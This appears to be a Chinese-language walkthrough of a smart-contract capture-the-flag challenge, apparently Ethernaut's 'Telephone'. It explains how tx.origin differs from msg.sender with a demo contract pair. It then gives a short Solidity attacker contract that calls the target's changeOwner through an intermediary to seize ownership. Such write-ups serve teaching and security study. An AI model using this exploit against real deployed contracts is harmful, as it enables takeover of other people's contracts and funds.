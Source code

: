 **`tx.origin`**：交易的最初发起人（EOA）。

**`msg.sender`**：当前调用者（可能是 EOA 或合约）。

如果直接从钱包（EOA）调用 `changeOwner`，那么 **`tx.origin == msg.sender`**，条件不成立，不能修改 `owner`。

只有当调用经过 **另一个合约转发** 时，`msg.sender = 合约地址`，`tx.origin = EOA`，这两个不相等，条件成立，可以修改 `owner`。

例子如下：

```solidity
contract A {
    function callB(address b) public {
        B(b).foo();
    }
}

contract B {
    function foo() public view returns (address, address) {
        return (msg.sender, tx.origin);
    }
}
```

调用流程：

1. EOA（Alice）发交易 → 调用 `A.callB(b)`。
2. 在 `A` 内部又调用 `B.foo()`。

在 `B.foo()` 里：

- `msg.sender = A`（因为直接调用 `foo()` 的是合约 `A`）。
- `tx.origin = Alice`（因为交易最初来自 Alice）。

攻击脚本

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface attackTelephone {
    function changeOwner(address _owner) external;
}
    
contract attacker{
    attackTelephone public target;

    constructor(address _target)
    {
        target = attackTelephone(_target);
    }

    function attack(address myaddr) public
    {
        target.changeOwner(myaddr);
    }
}
```
